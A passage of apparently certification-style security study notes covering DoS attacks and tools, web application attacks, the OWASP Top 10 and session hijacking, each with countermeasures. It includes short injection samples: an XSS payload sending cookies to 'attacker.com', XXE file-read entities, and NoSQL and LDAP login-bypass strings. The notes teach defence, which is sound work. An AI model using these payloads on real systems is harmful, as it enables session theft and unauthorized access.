- When the fragments are reassembled, the resultant ICMP packet is larger than max size and crashes the system

### Protocol attacks

- Also known as **state exhaustion flood attacks**
- Goal is to make target device reject new connections
- Targets connection state tables, that are present in e.g. load balancers, firewalls, app servers

#### Protocol attack techniques

##### SYN flood attack

- Also known as **SYN Attack** or **SYN ACK flood attack**
- Exploits a flaw in [TCP three-way handshake](./../03-scanning-networks/tcpip-basics.md#three-way-handshake)
- Floods SYN requests with fake source IPs
  - Target responds with a SYN ACK packet and waits for the sender to complete the session
  - Sender never completes the session as source IP is fake.
- OS kernels usually implements a backlog of open connections
  - So the attack does not attempt to overload memory or resources
  - It overloads backlog of half-open connections
  - Causes legitimate requests to be rejected

###### SYN flood countermeasures

- 🤗 Defined in [RFC 4987](https://tools.ietf.org/html/rfc4987)
- Same countermeasures also resists against IP spoofing
- **Filtering**
  - Packet filtering based on IP addresses
- **Increasing backlog**
  - Larger backlogs allow more connections
- **Reducing `SYN-RECEIVED` timer**
  - Shorter time will prevent half-open connections to persist in backlog
- **Recycling the oldest half-open TCP**
  - When backlog is full, overwrite the oldest half-open entry
- **SYN cache**
  - Not allocating full state to minimize space until connection has been established
- **SYN cookies**
  - Resists IP spoofing
  - Encodes SYN queue entry in sequence number sent in the `SYN+ACK` response
  - When server receives `ACK`, it reconstructs SYN entry from sequence number to establish the connection
- **Hybrid approaches**
  - Combining SYN cache and cookies
  - E.g. sending cookies when cache is full
- **Firewalls and proxies**
  - Firewalls/proxies sends connection to end host when connection is established
  - Moves away problem to firewalls/proxies

##### ACK flood attack

- Overloading a server with TCP ACK packets
- TCP ACK packet is any TCP packet with the ACK flag set in the header.
- ACK is short for "acknowledgement"
  - TCP protocol requires that connected devices acknowledge they have received all packets in order
  - E.g. when all packets for an image is sent, ACK packet is required otherwise image is sent again.

##### DNS query/NXDOMAIN floods

- Attackers send valid but spoofed DNS request packets at a very high packet rate
- Victim's DNS servers proceeds to respond to all requests

##### Fragmentation attack

- Flooding TCP/UDP fragmented packets with small packet rate to the system
- Exhausts the system through forcing it to reassembling packets.

###### TCP fragmentation attack

- Also known as ***teardrop attack***
- 📝 Type of DoS attack also known as **teardrop** attack.
- Sends invalid packets with overlapping, oversized payloads to the victim.
- Sends gigantic payloads to crash vulnerable systems:
  - Windows 3.1x, Windows 95 and Windows NT
  - Linux prior to versions 2.0.32 and 2.1.63

##### `RST` attack

- Also known as **TCP reset attack**
- Attacker sends TCP packets with the `RST` flag set to `1` to host A, host B, or both using spoofed IPs
  - Causes termination of valid TCP connection between the two hosts.
- Setting `RST` flag
  - Indicates that receiving computer should immediately kill the TCP connection
  - An real-life scenario
    1. Two computers (computer A and computer B) communicate with each other
    2. Computer B kills the communication without knowledge of computer A
       - E.g. computer B has crashed
    3. Computer A continues to send packets to computer B
    4. Computer B sends `RST` packet to computer A to kill the communication
  - See also: [TCP flags](./../03-scanning-networks/tcpip-basics.md#tcp-flags)
- 🤗 Used often for internet censorship e.g. • [The Great Firewall of China](https://en.wikipedia.org/wiki/Great_Firewall) • [Iranian Internet censors](https://en.wikipedia.org/wiki/Internet_censorship_in_Iran#Deep_packet_inspection).

### Application layer DoS attacks

- Send "legitimate" traffic to a web application than it can handle.
- Goal is to make target application reject new connections by creating new connections and keeping them open as long as possible.
- Flow
  1. Attacker opens multiple connections to the targeted server by sending partial HTTP request headers.
  2. Target opens a thread for each incoming request to close once connection is completed.
     - If connection takes too long, the server will timeout, freeing the thread up.
  3. Attacker sends partial request headers to prevent target from timing out

#### Application layer attack techniques

- **HTTP flooding attacks**
  - Goal is to make server hold on to connections waiting for the full requests which it never receives.
  - **HTTP GET attack**: Sending requests with time delayed HTTP headers
  - **HTTP POST attack**: Sending requests with incomplete bodies delayed HTTP headers
- **Slow-rate attacks**
  - Also known ass **low and slow attacks**
  - Apparently legitimate traffic arriving at a seemingly legitimate albeit slow
  - E.g. [Slowloris and R-U-Dead-Yet](#dos-tools)

### Other attack types

- **Multi-vector attack**
  - Combining volumetric, protocol, and application layer attacks into one and launching
  - Can be sequentially or in parallel
- **Peer-to-Peer Attack**
  - Caused by bugs in a peer-to-peer server
  - Instructs clients to disconnect and reconnect to a victims website.
- **Permanent DoS Attack (PDoS)** or **phlashing**
  - Does irreversible (without replacement or reinstalling) damage to the hardware or its firmware.
  - E.g. replacing firmware (e.g. through fake updates) with a corrupt one, also known as flashing.
- **Fraggle attack**
  - Similar to [Smurf](#smurf-attack) but uses UDP.
- **TCP state-exhaustion**
  - Attempts to consume connection state tables.  
  - Tergets load balancers, firewalls, and application servers

#### DRDoS

- Also known as ***distributed reflection denial of service (DRDoS) attack*** or ***spoofed attack***
- Multiple intermediary machines send the attack at the behest of the attacker is correct.
- Secondary systems carry out attacks so the attacker remains hidden.
- Attacker instructs zombie machines (called **secondary machines**) to send packets to uncompromised machines (called **secondary machines**)
  - Packets contain target's IP address as the source address
  - Secondary machines try to connect to the target.

### DoS Tools

- **Slowloris**
  - Floods HTTP with headers for each request without actually completing them.
  - 🤗 [Slowloris presentation](https://samsclass.info/seminars/slowloris.pdf)
- 📝 **[R-U-Dead-Yet](https://sourceforge.net/projects/r-u-dead-yet/)**
  - Also known as ***RUDY***, ***R.U.D.Y.*** or ***R U Dead yet***
  - Submits long form fields using HTTP posts to the target server.
  - Sends concurrenct small pakets at incredibly slow rate
  - Keeps connection open as long as possible
- **[HULK](https://github.com/grafov/hulk)**
  - HTTP DoS tool
- **[Metasploit](./../05-vulnerabilities/automated-penetration-testing-tools.md#metasploit)**
  - with modules for DoS e.g. [TCPSYNFlooder](https://www.rapid7.com/db/modules/auxiliary/dos/tcp/synflood/)
- [**Nmap**](./../03-scanning-networks/scanning-tools.md#nmap) with [DoS scripts](https://Nmap.org/nsedoc/categories/dos.html)
- **[DAVOSET](https://github.com/MustLive/DAVOSET)**
  - DAVOSET = DDoS attacks via other sites execution tool
  - DDoS attacks on the sites via Abuse of Functionality and XML External Entities vulnerabilities on other sites.
- **[High Orbit Ion Cannon (HOIC)](https://sourceforge.net/projects/highorbitioncannon/)**
  - High-speed multi-threaded HTTP flood
- Other tools include • Stacheldraht • Trinoo • TFN2k • WinTrinoo • T-Sight

#### Low Orbit Ion Cannon (LOIC)

- DoS attack tool (C#) using layer (TCP, UDP) and layer 7 (HTTP) packets
- Used for successful attacks to big companies by including Anonymous group.
- [Open-source](https://sourceforge.net/projects/loic/)
- Improved version: **[Tsunami](https://sourceforge.net/projects/tsunami-dos/)**

#### Mobile tools

- [LOIC](#low-orbit-ion-cannon-loic)
- AnDOSID

## Denial of Service countermeasures

### DoS analysis

- **Activity Profiling**: Detect Increases in activity levels, distinct clusters, average packet rate etc.
- **Changepoint detection**: Stores and presents graph of traffic flow rate vs time for each IP/port.
- **Wavelet-based signal analysis**: Divides incoming signal into various frequencies as spectral components.

### DoS prevention strategies

- Absorb the attack with additional resources e.g. through using a CDN.
- Degrade or shut down services (start with non-critical services)
- Deflect attacks using honeypots.
- Ingress filtering to enable originator be traced to its true source.
- Egress Filtering to ensure unauthorized or malicious traffic never leaves the internal network
- Load balancing and throttling

### DoS post-attack forensics

- Traffic patterns for new filtering techniques
- Router, firewall, and IDS logs
- Update load-balancing and throttling countermeasures
# Hacking web applications

- Web Application: UI to interact with web servers

## Web application architecture

### Service-oriented architecture

- Also known as • **SOA** • **service oriented architecture**
- Architecture-driven software design
- Software components deliver information to other components usually over a network.
- E.g. a company might develop an API that provides software programming access to a specific database, which would then let other developers build applications that could leverage the API to query or upload data.

### Multi-tier architecture

- Also known as • **multitier architecture** • **n-tier architecture** • **multilayered architecture**
- Each layer is developed and maintained as independent modules
- Every layer can exist without the layers above it, and requires the layers below it to function.

#### Three-tier architecture

1. 📝 **Client/presentation layer** e.g. HTML, CSS, JavaScript...
   - GUI to interact with users
   - 💡 Place in DMZ layer
2. 📝 **Business layer** e.g. C#, Java, Python, C++...
   - Also known as **logic layer**, **middle layer**, **business logic layer** or **domain layer**
   - Handles requests and response (return data from browser)
   - Includes **application layer**
     - Encapsulates the API definition surfacing the supported business functionality
     - ❗ In some conventions such as Domain Driven Design it's a separate layer above domain layer, making the architecture 4-tier.
   - 💡 Place in internal network
3. 📝 **Database layer** database server e.g. MySQL, Oracle, MongoDB
   - Also known as **data access layer**, **data**, **infrastructure** or **persistance** layer
   - 💡 Place in internal network

## Web 2.0

- **Web 1.0** (around 1991 - 2004)
  - Static pages instead of dynamic HTML
  - Data provided from filesystem instead of a database
  - Guestbooks
  - GIF buttons
  - HTML forms sent via email
- **Web 2.0** (> 2004)
  - Rich user experience: dynamic and responsive content
  - User participation: users create user-generated content for other users to see
  - Software-as-a-Service: APIs to allow automated usage
  - Mass participation: Near-universal web access instead of hackers and computer hobbyists as in Web 1.0.
  - **Facilitates**
    - Interoperability: • Blogs • Gaming • Dynamic • RSS
    - User-centered design: • Social networking • Mash-ups (emails, payments) • WIKIs • Location services
    - Collaboration: • Cloud computing • Interactive encyclopedias and dictionaries • Online office software

### Vulnerability stack

- Each [OSI layer](./../03-scanning-networks/tcpip-basics.md#osi-model) contains sensitive data that can help the attacker.
- 📝 Vulnerabilities in one layer is independent of vulnerabilities in another layer.
- Layers

  | Layer | Web element / service | Description |
  | ----- | ------------- | --------------- |
  | Layer 7 | Web application | Business logic flaws, technical vulnerabilities |
  | Layer 6 | Third party applications | Open source or commercial |
  | Layer 5 | Web server | E.g. • Apache • IIS |
  | Layer 4 | Database | E.g. • MySql • Oracle |
  | Layer 3 | OS | E,g, • Linux • Windows • macOS |
  | Layer 2 | Network | • Router • Switch |
  | Layer 1 | Security | • IPS / IDS |

## Web application hacking methodology

1. Web infrastructure footprinting
   - Server discovery: servers, location, ports
   - Hidden content discovery e.g. through web crawling
   - E.g. using telnet
     1. `telnet <target-url-or-ip> 80` to create a telnet connection
     2. Press "ESC" to get some information
   - 📝 E.g. using OpenSSL (TLS/SSL toolkit & library) with `s_client` (SSL/TLS client)
     - E.g. to get cipher used:
       - `openssl s_client -connect <target website> -port 443`
       - or `openssl s_client -connect <target website>:443`
2. Web server attack to exploit identified vulnerabilities
   - Client-side controls evasion e.g. [attacking hidden form fields](#hidden-field-manipulation)
   - Launch web server attack to exploit identified vulnerabilities, launch DoS

## Web application threats

- [**OWASP Top 10 Threats**](./owasp-top-10-threats.md)
  - • Injection • Broken authentication • Sensitive data exposure • XML External Entities (XXE) • Broken Access Control • Security misconfiguration • Cross-Site Scripting (XSS) • Insecure deserialization • Using components with known vulnerabilities • Insufficient logging and monitoring
- [**Web-server threats**](../../chapters/12-web-servers/web-server-threats-and-attacks.md)
  - • Denial-of-Service (DoS) • Buffer Overflow
- **Obfuscation application**: Obfuscated attacks using e.g. different encodings.
- **Broken account management**
  - Vulnerabilities in e.g. account update, password reset/recovery and other functions.
- **Platform Exploits**
  - Platforms that websites are built with/built on might have vulnerabilities

## Web application attacks

- **Web services Attack**
  - Exploiting an application integrated with vulnerable web services
- Authentication Hijacking
- **CAPTCHA Attacks**
  - CAPTCHA
    - Challenge–response test used in computing to determine whether or not the user is human
    - 🤗 Also known as **reverse Turing test**.
  - Attacks includes e.g. using deep learning to break semantic image
- **Network access attacks**
  - Allows access that HTTP protocol does not allow
- Application logic vulnerabilities such as poor coding

### DMZ protocol attacks

- By compromising a system that allows DMZ protocols, attacker can reach other DMZs and internal systems.
- Can lead to • compromising application and data • [website defacement](./../12-web-servers/web-server-threats-and-attacks.md#website-defacement) • unauthorized access to other internal systems.

### Hidden field manipulation

- Also known as • **hidden form values attack** • **hidden-field manipulation**
- Allows attacker to manipulate hidden values in forms such as product prices.
- Mostly against e-commerce websites

### Database connection (data connectivity) attacks

- Connection string injection
  - Appends to connection string with `;`
- Connection String Parameter Pollution (CSPP) Attacks
  - Overwrite parameter values in application where values are provided dynamically based on user input.
- Connection Pool DoS by injecting a large SQL query.

### Unvalidated redirects and forwards

- Attacker tricks victim into clicking legitimate-looking but malicious links.
- **Unvalidated redirect**
  - E.g. user sees `cloudarchitecture.io` but as the link is `cloudarchitecture.io/?redirect=evilsite.com` the user ends up on `evilsite.com`
  - **Watering Hole Attack**
    - 📝 Infecting website that's frequently visited by target with malware to attack the victim.
    - Usually website checks IP and only infects the target.
    - Websites are often infected through zero-day vulnerabilities on browsers or other software
    - Type of unvalidated redirect attack as it redirects the victim to the malware download.
    - 🤗 Named as watering hole since the attacker waits for the victim to fall into the trap, similar to a lion waiting for its prey to arrive at waterhole to drink water
- **Unvalidated forward**
  - E.g. appending `?forward=admin` ends up on admin page without validation.
- Can lead to attacks including • Session Fixation Attack • Security Management Exploits • Failure to Restrict URL Access • Malicious File Execution

### Web parameter tampering

- Attacker manipulates parameters to modify data
- 📝 Common types
  - **Changing a value in a hidden tag** e.g.
    - `<input type="hidden" name="price" value="59.90">`
  - **Adding a non-existing value to a combobox** e.g.
    - `<select name="accounts"><option value="755">755</option></select>`
    - Only one account is selectable but attacker changes HTML to add a new option.
  - **Changing parameter in an URL** e.g.
    - Legitimate URL is `https://cloudarchitecture.io/transfer?account=12345&amount=1`
    - Attacker changes is sto `https://cloudarchitecture.io/transfer?account=67890&amount=9999`
  - **Adding a new parameter to grant unauthorized**
    - Legitimate URL is `https://cloudarchitecture.io/getpage.asp?id=77492&mode=readonly`
    - Attacker removes `&mode=readonly` parameter.
- Read more on [OWASP](https://owasp.org/www-community/attacks/Web_Parameter_Tampering)

### Authentication attacks

- Username enumeration
- Poisoning (tampering)
- Sniffing replay
- [Exploiting cookies](#cookie-attacks) to bypass authentication.
- Session attacks: • Session prediction • brute forcing • poisoning
- Password attacks: • Guessing • brute force
- Verbose failure messages
- Predictable user names

### Authorization attacks

- Finds legitimate accounts then slowly escalates privileges
- Sources include URI, POST data, HTTP headers, cookies, hidden tags

### Session management attacks

- Goal is to impersonate targets
- Attacks include
  - session token prediction
  - session token tampering
  - session token sniffing
- Can be done through [cookie attacks](#cookie-attacks) as session token is often stored as a cookie.
- Gaining token allows • MITM • session hijacking • session replay.

### Cookie attacks

- **Cookie poisoning**
  - Also known as **cookie tampering**
  - E.g. a **cookie parameter tampering** would be changing `isAdmin: false` to `isAdmin: true`
- 📝 **Cookie sniffing**
  - Capturing cookies sent over a wired or wireless connection
  - Usually used to login as user to bypass authentication
- **Cookie snooping**
  - Looking inside cookies for valuable data, such as weakly encrypted logon credentials.
  - Can be used to reveal user surfing patterns and sold by e.g. spywares

#### Cookie

- An HTTP cookie is information stored on users computer by browser as instructed by website.
- **Session cookie**
  - Also known as an • **in-memory cookie** • **transient cookie** • **non-persistent cookie**.
  - A cookie that does not contain an expiration date.
  - Stored in memory and never written on disk
  - Browsers normally delete session cookies when the user closes the browser.
- A countermeasure is to disable cookies on the browser.
- Some poorly written applications may store password/username in a cookie.

#### Cookie exploitation tools

- [OWASP Zed Attack Proxy](https://github.com/zaproxy/zaproxy): Can use cookie for attacks.
- [Burp Suite](./../05-vulnerabilities/vulnerability-analysis.md#burp-suite): Can use cookie for attacks through burp proxy.
- [XSSer](https://github.com/epsylon/xsser): For cookie injection (XSS)

### Clickjacking

- Also known as ***user interface redress attack***, ***UI redress attack***, ***UI redressing***
- 📝 Tricks user to clicking something different from what they perceive
- `X-Frame-Options` header in web applications provides protection against it.
- E.g. showing app on top another app to give away sensitive information
# OWASP top 10 threats

- [OWASP](https://owasp.org/): open community dedicated for application security.
- [OWASP Community Pages](https://owasp.org/www-community/): Wiki including controls, attacks, vulnerabilities for applications.
- [OWASP Top 10](https://owasp.org/www-project-top-ten/): Describes top 10 application security threats.
- 💡 [OWASP WebGoat](https://owasp.org/www-project-webgoat/) is a deliberately insecure application to test top 10 vulnerabilities.
- 📝 Ordered from most common to least
  1. [Injection](#injection)
  2. [Broken authentication](#broken-authentication)
  3. [Sensitive data exposure](#sensitive-data-exposure)
  4. [XML external entities](#xml-external-entities-xxe)
  5. [Broken access control](#broken-access-control)
  6. [Security misconfiguration](#security-misconfiguration)
  7. [Cross-Site Scripting (XSS)](#cross-site-scripting-xss)
  8. [Insecure deserialization](#insecure-deserialization)
  9. [Using components with known vulnerabilities](#using-components-with-known-vulnerabilities)
  10. [Insufficient logging and monitoring](#insufficient-logging-and-monitoring)

## Injection

- Injecting malicious data into commands and queries to execute in the application
- Targets input fields or entry points of the application
- The first on OWASP's top 10 list
- Very common as any source of data can be an injection vector.

### Types of injection attacks

#### Code injection

- General term for attack types which consist of injecting code that is then interpreted/executed by the application
- Exploits poor handling of untrusted data.
- 📝 According to [OWASP](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11-Testing_for_Code_Injection.html) it targets on server-side scripting engines, e.g. ASP or PHP
  - However, according to [Wikipedia code injection](https://en.wikipedia.org/wiki/Code_injection) also includes non server-side scripting engines such as [Cross Site Scripting](#cross-site-scripting-xss) and [SQL injection](./../14-sql-injection/sql-injection-overview.md)
- ❗ Not same as [Command injection](#command-injection)
  - Code injection leverages existing code to execute commands.
    - E.g. if PHP code injected, it's only limited by limited by what PHP is capable of.
  - Command injection runs system commands on underlying OS.

#### NoSQL injection

- Like SQL injection but targets NoSQL databases
- E.g. MongoDB login bypass
  - Assume back-end is vulnerable:

    ```json
        // NodeJS with Express.js
      db.collection('users').find({
        "user": req.query.user,
        "password": req.query.password
      });
    ```

  - Sending `https://cloudarchitecture.io/login?user=patrick&password[%24ne]=`would cause:
    - `"password: { "&ne": "" }` (not equal empty)

#### LDAP injection

- LDAP is a protocol used to access and maintain directory services over IP
  - Read more about [LDAP](#ldap-injection)
- E.g. using **`&`** to end to query
  - Application code: `String filter = "(&(USER = " + user_name + ") (PASSWORD = " + user_password + "))";`
  - Attacker enters appends `)(&)` after user name like: `johnDoe)(&)`
  - Attacker gets access as `&` ends the query and always evaluates to `true`.

#### SOAP injection

- A type of XML injection as SOAP uses XML (eXtensible Markup Language) to represent the data.
- SOAP is a protocol used for web services to exchange structured information.
- 📝 It communicates over usually on HTTP but in some legacy applications also SMTP.
- E.g. injecting an additional `<FundsCleared>True</FundsCleared>`, in a bank application

#### Command injection

- **Shell injection**
  - Applies to web applications that programmatically execute a command line
- **File injection**
  - E.g. exploiting by causing an application to run/show a malicious remote file
- **HTML embedding**
  - Refers to [Cross Site Scripting (XSS)](#cross-site-scripting-xss)

#### SQL injection

- See [SQL injection](./../14-sql-injection/sql-injection-overview.md)

### Countermeasures for injection

- Input validation
- Customized error messages
- Monitoring database traffic
- Limit length of user input

## Broken authentication

- Threats and vulnerabilities in authentication and session management
- Exploited to impersonate targets
- Vulnerabilities include
  - Exposing session IDs in urls
  - Session IDs not being rotated (changed)
  - Weak or ineffective credential recovery and forgot-password processes
  - Plain text, encrypted, or weakly hashed passwords
  - Ineffective [multi-factor authentication (MFA)](./../01-introduction/identity-access-management-(iam).md#multi-factor-authentication-mfa)
  - Improperly set timeouts (does not invalidate session during e.g. user inactivity or log out)

### Example attacks for broken authentication

- **Credential stuffing**
  - Automated injection of breached username/password pairs
  - E.g. using [list of known passwords](https://github.com/danielmiessler/SecLists)
- An attacker can use old users browser while the user is still authenticated but not using his/her computer.

### Countermeasures for broken authentication

- Use [MFA (multi-factor authentication)](./../01-introduction/identity-access-management-(iam).md#multi-factor-authentication-mfa) where possible to prevent e.g. automated and brute-force attacks.
- Do not ship or deploy with any default credentials
- Implement weak-password checks, such as testing new or changed passwords against a list of the top 10000 worst passwords.
- Use NIST standard password length, complexity and rotation policies
- Harden pathways against account enumeration attacks by using the same messages for all outcomes.
- Limit or increasingly delay failed login attempts.
- Log failures and alert when attacks are detected.
- Use server-side, randomized session ID generation after login.

## Sensitive data exposure

- Exploits weak encryption code.

### Example attacks for sensitive data exposure

- SQL injection flaw to retrieve credit card numbers in clear text as they're not encrypted in transit.
- Downgrading from HTTPS to HTTP to intercept requests
- Pre-calculating hashes with simple (or) fast hash algorithms to find out passwords in clear text from a hashed database.

### Countermeasures for sensitive data exposure

- Classify data (sensitive etc.) and apply controls as per the classification.
- Don't store sensitive data unnecessarily
- Encrypt data in transit and at rest
- Ensure up-to-date and strong standard algorithms, protocols, and keys are in place
- Use proper key management (rotate to not reuse same keys)
- Disable caching of sensitive data

## XML External Entities (XXE)

- Takes advantage of a poorly configured XML parser
- Allows attackers to cause DoS and access local or remote files
- Applications with improper XML validation or insecure XML processors are vulnerable.

### Example attacks for XML External Entities (XXE)

- Local files: Injecting `<!ENTITY xxe SYSTEM "file:///dev/password" >]>` shows `dev/password` file
- Probing local network: `<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>`

### Countermeasures for XML External Entities (XXE)

- Use less complex data formats such as JSON
- Patch or upgrade all XML processors (at least SOAP 1.2) and libraries and underlying operating system.
- Disable XML external entity and DTD processing in all XML parsers
- Implement proper server-side input validation

## Broken access control

- Threats and vulnerabilities in access control.
- Exploited to evade the authentication and gain admin privileges.

### Attacks for broken access control

- 📝 Elevation of privilege by e.g. acting as an admin as user or when not logged in.
- Metadata manipulation such as tampering JSON Web Token (JWT) access control tokens
- CORS misconfigurations to do an unauthorized API access.
- Accessing API with missing access controls for POST, PUT and DELETE.

### Insecure direct object references (IDOR)

- 📝 Direct access to internal objects through URL without authorization checks
- E.g. `cloudarchitecture.io/change_password.php?userId=victimUsername` to reset victims password

#### Missing Function Level Access Control

- Bypassing access control checks by modifying the URL
- E.g. reaching admin panel by modifying `cloudarchitecture.io/appInfo` to `cloudarchitecture.io/adminAppInfo`s

### Countermeasures for broken access control

- Only use server-side code (or serverless API) for access control
- Re-use access controls throughout the application
- Minimize CORS usage.
- Access controls should enforce record ownership per for data being deleted/altered
- Rate limiting APIs and controllers to minimize harm from automated attacks
- Invalidate JWT tokens after server logout
- Unit and integration tests for functional access control

## Security misconfiguration

- Exploits poorly configured application stack.

### Vulnerabilities of Security misconfiguration

- Incomplete or ad hoc configurations
- Open cloud storage
- Misconfigured HTTP headers
- Verbose error messages containing sensitive information
- Default configurations
- Unnecessary services / unused services
- Unprotected files and directories
- Unpatched flaws

### Countermeasures of Security misconfiguration

- Configure development, QA, and production environments identically with different credentials.
- Minimal platform without any unnecessary features, components, documentation, and samples.
- Review and update the configurations as part of patch management
  - Especially review cloud storage permissions (e.g. S3 bucket permissions)
- Segmentation (separation between components) through containerization or cloud security groups (ACLs)
- Send security directives to clients, e.g. [security headers](https://securityheaders.com/)
- Automated process to verify the effectiveness of the configurations and settings in all environments

#### Security hardening

- Securing a system by reducing its surface of vulnerability
- In principle a single-function system is more secure than a multipurpose one
- E.g. changing default passwords, the removal of unnecessary software, unnecessary usernames or logins, and the disabling or removal of unnecessary services.
- See [privacy.sexy](https://privacy.sexy) for open-source security hardening on Windows.

### Attacks of Security misconfiguration

- Attacker recognizes that sample application is left on application server
  - Attacker logs in to the server through its admin console and default password.
- Attacker recognizes directory listing is not disabled on the server.  
  - Attacker lists directories on a server
  - Attacker downloads source code to decompile them to look for access control flaws.
- Attacker checks error messages to see component versions and looks for vulnerabilities in them.

## Cross-Site Scripting (XSS)

- Also known as **cross site scripting**
- 📝 Taking untrusted data and sending it without input validation or escaping
- 📝 Type of client-side [code injection](#code-injection)
- Used to
  - hijack user sessions
  - deface web sites
  - redirect the user to malicious  sites
  - bypass controls such as same-origin policy

### Types of Cross-Site Scripting (XSS)

- **Reflected XSS**
  - Application or API includes unvalidated and unescaped user input as part of HTML output.
  - Allows attacker to execute arbitrary HTML and JavaScript in victims browser.
  - Enables attacker to show malicious link to user to point to an attacker-controlled page.
- **Stored XSS**
  - Application or API stores unsanitized user input that is viewed at a later time.
- **DOM XSS**
  - Vulnerability of JavaScript frameworks, SPAs and APIs that include attacker-controllable data to a page.
  - Application shouldn't send attacker-controllable data to unsafe JavaScript APIs.

### Threats of Cross-Site Scripting (XSS)

- Session stealing
- Account takeover
- [MFA](./../01-introduction/identity-access-management-(iam).md#multi-factor-authentication-mfa) bypass
- DOM node replacement or defacement (such as trojan login panels)
- Attacks against the user's browser such as malicious software download
- Key logging

### Example attacks for Cross-Site Scripting (XSS)

- Application sets value of an HTML parameter to an input without proper validation/sanitization

  ```html
    page += "<input name='credit-card' type='TEXT'
    value='" + request.getParameter("CC") + "'>";
  ```

- Attacker can then modify CC parameter in browser to: `'><script>document.location=
'http://attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'.`
- More examples are at [XSS filter evasion cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
  - ❗ However must of them gets detected and filtered by Chrome or Firefox.
  - 💡 Can test if the injection will be successful on e.g. [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA)

### Countermeasures for Cross-Site Scripting (XSS)

- Enable Content Security Policy (CSP) as a defense-in-depth mitigating control against XSS.
  - Only allows executing scripts from permitted domains.
- Filter input on arrival
- Set `HttpOnly` flag set for session cookies so they cannot be reached through JavaScript.
- 📝 Escape HTML code
  - Escape untrusted HTTP request data based on the context in the HTML output
  - Use frameworks that automatically escape XSS by design
  - Apply context-sensitive encoding
    - Encoding of HTML and JavaScript is different when modifying them based on user data

## Insecure deserialization

- Exploited by injecting malicious code into serialized data.
- Allows attacker to gain access through execution of malicious serialized data.
- Serialization can be used in e.g. caches, databases, HTTP cookies, authentication tokens..

### Attacks for insecure deserialization

- Object and data structure related attacks
  - Attacker modifies application logic or achieves remote code execution
- Data tampering attacks
  - E.g. access-control-related attacks where data content is changed
    - E.g. changing `role: user` to `role: admin`
  - Other serialization attack

### Countermeasures for insecure deserialization

- Do not accept serialized objects from untrusted sources
- Use serialization medium only for primitive data types such as `JSON`.
- Alternatively
  - Implementing integrity checks such as digital signatures against data tampering
  - Enforce strict type constraints
  - Isolate running deserialization logic in low privilege environments
  - Log deserialization exceptions and failures e.g. type mismatches or exceptions.
  - Restrict or monitor network traffic that deserializes.
  - Alert if a user deserializes constantly

## Using components with known vulnerabilities

- Components include libraries, frameworks.
- Risk is big as they run with same privileges as the applications.
- Common in internet of things (IoT) as they are difficult (or impossible) to patch.
- Can be easily exploited by automated tools.

### Weaknesses for using components with known vulnerabilities

- Not knowing versions of used components and nested dependencies.
- If software is vulnerable, unsupported, or out of date.
- Fixing, upgrading platforms in a timely fashion for change control (e.g. once a month)
- Not testing compatibility of changed libraries
- Not securing component configurations. See: [security misconfiguration](#security-misconfiguration)

### Attack examples for using components with known vulnerabilities

- [CVE-2017-5638](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638), remote code execution vulnerability that caused some breaches.
- [Shodan IoT Search Engine](https://www.shodan.io/report/89bnfUyJ) can show IoT devices that are still vulnerable to [Heartbleed](https://heartbleed.com/)
  - See also [Shodan | Footprinting](./../02-footprinting/search-engines-and-online-resources.md#shodan)

### Countermeasures for using components with known vulnerabilities

- Scan for vulnerabilities regularly
- Subscribe to security bulletins related to the components you use.
- Patch management process to remove unused dependencies, features, components, files, and documentation.
- Only obtain components from from official sources over secure links, prefer signed packages.
- Monitor for libraries and components that are unmaintained or do not create security patches
- Continuously inventory the versions of both client-side and server-side components and their versions.

## Insufficient logging and monitoring

- 🤗 [Most breach studies](https://www-01.ibm.com/common/ssi/cgi-bin/ssialias?htmlfid=SEL03130WWEN&) show time to detect a breach is over 200 days, typically detected by external parties rather than internal processes or monitoring

### Weaknesses for insufficient logging and monitoring

- Storing logs only locally
- Unclear logs
- No monitoring of logs for suspicious activity
- Missing/ineffective incident response
- Not triggering alerts on e.g. security scans

### Countermeasures for insufficient logging and monitoring

- Ensure logs have a format that can be consumed in a centralized log management solutions
- Establish or adopt an incident response and recovery plan
- Ensure all suspicious (login, RBAC, input failures) activities are logged with sufficient user context.
- Prevent tampering or deletion of log e.g. by using append-only database
- Ensure that suspicious activities are detected and responded to in a timely fashion.
# Session hijacking

- Targeting a session between two machines to gain access
- Exploits vulnerabilities in session generation logic.
- Common ways are to ***guess*** or ***steal*** a valid session token.
- Types
  - **Passive session hijacking**: Monitoring the traffic without interference, e.g. through sniffers.
  - **Active session hijacking**: Becoming participant in the communication with target server.
- Spoofing vs Hijacking
  - **Spoofing**: attacker pretends to be another user
  - **Hijacking**: process of taking over an existing active session

## Steps of session hijacking

1. **Sniff** the network traffic between two machines
   - Using e.g. [Wireshark](https://www.wireshark.org/), [Capsa Network Analyzer](https://www.colasoft.com/capsa/), [Windump](https://www.winpcap.org/windump/), [Ettercap](https://www.ettercap-project.org/) etc.
2. **Monitor** the traffic to predict sequence numbers
   - E.g. using a proxy server trojan to change the proxy settings in the victim's browser.
3. **Session Desynchronization** to break the connection
   - Can use automated tools such as [OWASP Zed Attack Proxy](https://www.zaproxy.org/), [Burp suite](./../05-vulnerabilities/vulnerability-analysis.md#burp-suite) to hijack sessions.
4. **Session ID prediction** to take over the session
   - Cracking is easy if it is URL encoded, HTML encoded, unicode encoded, base64 encoded, or hex encoded.
   - Otherwise it can be brute-forced with possible range of values for the session ID
5. **Command Injection**
   - 📝 E.g. using `ettercap` [filters](https://github.com/Ettercap/ettercap/blob/master/share/etter.filter.examples) for e.g. [JS injection](https://github.com/Ettercap/ettercap/issues/796)

## Session hijacking attacks in OSI layers

### Application Layer session hijacking attacks

- To goal is to acquire a valid session ID
  - Allows to bypass the authentication schema of an application.
- **Session sniffing**
  - Using sniffers to capture traffic, then analyzing it to find a valid session token.
- **Session token prediction**
  - Requires understanding of token generation that can be through:
    - Analyzing some collected session IDs
    - Brute-forcing to generate and test different values of session ID
- **Session hijacking using proxy servers**
  - Attacker creates a proxy webpage that looks legitimate
  - Server forwards requests to legitimate server while capturing session information.
- **Session replay attack**
  - Eavesdropping traffic between target and its user to capture users authentication token
  - Once the token is captured the session is replayed with server to be authenticated
- **Session fixation attack**
  - 📝 Attacker creates a session with server and trick target into authenticating themselves with attackers session ID.
- **Man-in-the-middle attack**
  - Accessing to and possibly manipulating the communication channel between two machines.
